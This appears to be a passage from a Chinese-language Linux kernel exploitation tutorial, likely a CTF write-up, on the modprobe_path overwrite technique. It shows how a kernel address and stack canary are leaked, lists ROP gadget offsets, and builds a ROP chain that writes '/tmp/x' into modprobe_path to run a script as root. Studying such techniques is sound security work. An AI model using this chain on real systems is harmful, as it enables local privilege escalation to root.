 可以通过以下命令查看：

```bash
/ # cat /proc/sys/kernel/modprobe
/sbin/modprobe
```

`modprobe_path`是一个全局变量，这意味着，我们可以通过`/proc/kallsyms`得到它。

当我们执行一个未知类型的文件，`modprobe_path`指向的文件就会被执行

```c
static int call_modprobe(char *module_name, int wait)
{
    ...
  	argv[0] = modprobe_path;
  	argv[1] = "-q";
  	argv[2] = "--";
  	argv[3] = module_name;
  	argv[4] = NULL;

  	info = call_usermodehelper_setup(modprobe_path, argv, envp, GFP_KERNEL,
					 NULL, free_modprobe_argv, NULL);
    ...
}
```

如果，将路径覆盖指向我们编写的shell脚本，就实现了以root权限执行任意脚本的目的。

### Leak modprobe_path

第一步，首先泄露地址。

```c
    canary = leak[16];
    kernel_base = leak[38] - 0xa157ULL;
    kpti_pass = kernel_base + 0x200f10ULL + 22ULL;
    pop_rax = kernel_base + 0x4d11ULL;
    pop_rdi = kernel_base + 0x6370ULL;
    pop_rdx = kernel_base + 0x7616ULL;
    pop_rbx = kernel_base + 0x6158ULL;
    ksymtab_prepare_kernel_cred = kernel_base + 0xf8d4fcULL;
    ksymtab_commit_creds = kernel_base + 0xf87d90ULL;
    read_mrax_pop = kernel_base + 0x15a7fULL;
    modprobe_path = kernel_base + 0x1061820ULL;
    write_mrbx_rax_pop2 = kernel_base + 0x306dULL;
//0xffffffff8100306d : mov qword ptr [rbx], rax ; pop rbx ; pop rbp ; ret
```

与之前的并没有太大差别。这次要写内存，所以要找一个新`gadget`

### Overwrite

```c
    payload[off++] = canary;
    payload[off++] = 0x0;                 // rbx
    payload[off++] = 0x0;                 // r12
    payload[off++] = 0x0;                 // rbp
    payload[off++] = pop_rax;             // return address
    payload[off++] = 0x782f706d742f; 	// rax <- "/tmp/x";   
    payload[off++] = pop_rbx; 
    payload[off++] = modprobe_path;              
    payload[off++] = write_mrbx_rax_pop2;   // [rbx] <-- rax
    payload[off++] = 0x0;                 //dummy rbp
    payload[off++] = 0x0; 
    payload[off++] = kpti_pass; // swwapgs_restore_regs_and_return_to_usermode
    payload[off++] = 0;           // dummy rax
    payload[off++] = 0;           // dummy rdi
```